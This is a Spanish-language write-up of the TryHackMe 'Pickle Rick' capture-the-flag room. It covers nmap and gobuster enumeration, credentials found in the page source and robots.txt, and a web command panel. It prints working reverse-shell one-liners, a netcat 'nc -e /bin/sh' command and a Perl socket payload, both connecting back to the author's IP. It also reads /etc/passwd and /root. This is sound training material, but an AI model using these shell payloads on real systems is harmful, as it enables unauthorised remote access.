 ```yaml
---
layout: single
title: Pickle Rick - Try Hack me
excerpt: "Pickle rick, maquina Linux basada en Dirbuster y linux, este es mi primer reto
          CTF, ¡vamos a ver la solución del mismo!"
date: 2021-11-03
classes: wide
header:
  teaser: /assets/images/thm-picklerick/1.png
  teaser_home_page: true
  icon: /assets/images/thm.webp
categories:
  - TryHackMe
  - CTF
tags:  
  - Linux
  - CTF
  - Dirbuster
  - Easy
  
---
```


![](/assets/images/thm-picklerick/1.png)

Pickle rick, maquina Linux basada en Dirbuster y linux, este es mi primer reto
CTF, ¡vamos a ver la solución del mismo!

## Fase de enumeración

Vamos a hacer un escaneo de puertos con Nmap. Nmap -sC -ssV 10.10.104.37 -o PortsNmap

Además vamos a ejecutar un escaneo de directorios con Nmap → nmap –script http-enum 10.10.104.37 -Pn

-sC -sV → Usar scripts más comunes y mostrar versiones, -o Guardar escaneo en archivo.

![](/assets/images/thm-picklerick/2.png)

Vemos que tenemos dos puertos abiertos el 80 y el 22 , intuyo que al ser una maquina sencilla y basada en linux y dirbuster no creo que sea necesario probar ssh.

Además Nmap a logrado darnos dos directorios interesantes lo cual refuerza mi intuición anterior.

Ahora vamos hacer uso de la herramienta gobuster para busqueda de directorios, usaremos el comando: gobuster dir -u http://10.10.104.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php.html.txt 

-Hacemos uso de la wordlist y filtramos con el comando -x por .php .html y .txt

![](/assets/images/thm-picklerick/3.png)

Parece que gobuster no nos va a facilitar mucha más información, así que voy a cortarlo y vamos directamente a la pagina web.

## Fase de explotación

-Una vez en la web vemos esto:

![](/assets/images/thm-picklerick/4.png)

A simple vista no vemos nada interesante, pero siempre hay que mirar el código fuente y el wappalyzer.

![](/assets/images/thm-picklerick/5.png)

Vemos que en la pagina de inicio tenemos un posible nombre de usuario: R1ckRul3s

Ahora vamos a indagar por los siguientes directorios que conocemos. (robots.txt / login.php / assets)

Recordamos siempre mirar en cada apartado el código fuente y el wappalyzer

En robots.txt Nos encontramos con una posible contraseña. Wubbalubbadubdub

![](/assets/images/thm-picklerick/6.png)

En assets encontramos los archivos de la página.

![](/assets/images/thm-picklerick/7.png)

En el apartado login.php , encontramos un login vamos a probar con las credenciales previamente encontradas: User: R1ckRul3s , Pass: Wubbalubbadubdub 

![](/assets/images/thm-picklerick/8.png)

Y conseguimos acceso a este portal.php

![](/assets/images/thm-picklerick/9.png)

Si hacemos un whoami por ejemplo , vemos que estamos frente a una web shell, podríamos probar a hacer una reverse shell y traernosla directamente a neuestro equipo local, o podriamos empezar a introducir comandos como , ls -lia , whoami , id… Ir buscando entre archivos y directorios cosas interesantes.

![](/assets/images/thm-picklerick/10.png)

Vemos que ya vemos varias cosas interesantes como los .txt , viendo que los tiros van a ir todos por aquí vamos a intentar obtener directamente una reverse shell en nuestro equipo para trabajar con más comodidad. Con el comando ‘whereis’ vamos a comprobar si tiene instalado por ejemplo netcat para obtener una revershell de manera sencilla, En la maquina objetiva introducimos el comando ‘nc -e /bin/sh 10.9.3.248 4444’ y en nuestro equipo nos ponemos en escucha con el comando nc -lvnp 4444 , ejecutamos y vemos que no ganamos acceso, parece que algo esta capado, Vamos a investigar por google y nos encontramos con esta página: Web y ahora probaremos con:
 
``` 
perl -e 'use Socket;$i="10.9.3.248";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

y nosotros estaremos en escucha: nc -lvnp 4444 , conseguimos acceso.

![](/assets/images/thm-picklerick/11.png)

Ahora vamos a ver el contenido de los archivos .txt

![](/assets/images/thm-picklerick/12.png)

Vemos que conseguimos la primera flag y el otro archivo nos indica que busquemos dentro de los archivos del sistema para conseguir los otros ingredientes.

Vamos a probar principalmente a listar los contenidos de / etc / passwd , listar contenidos de /home y /root

![](/assets/images/thm-picklerick/13.png)

Vemos que en / etc / passwd , no encontramos nada interesante , ningun usuario extraño…

Ahora vamos a mirar en los usuarios de /home

![](/assets/images/thm-picklerick/14.png)

Bingo, encontramos el directorio del usuario rick y una vez dentro obtenemos un .txt del segundo ingrediente y conseguimos la segunda flag.

Por último vamos a mirar el directorio /root para ver que encontramos 

![](/assets/images/thm-picklerick/15.png)

Vemos que no nos pide contraseña para usar el super usuario, asi que listamos el contenido y vemos un archivo que aparentemente podría ser nuestra última flag y efectivamente, conseguimos las 3 flags y Rick volvera a ser humano.

![](/assets/images/thm-picklerick/16.png)

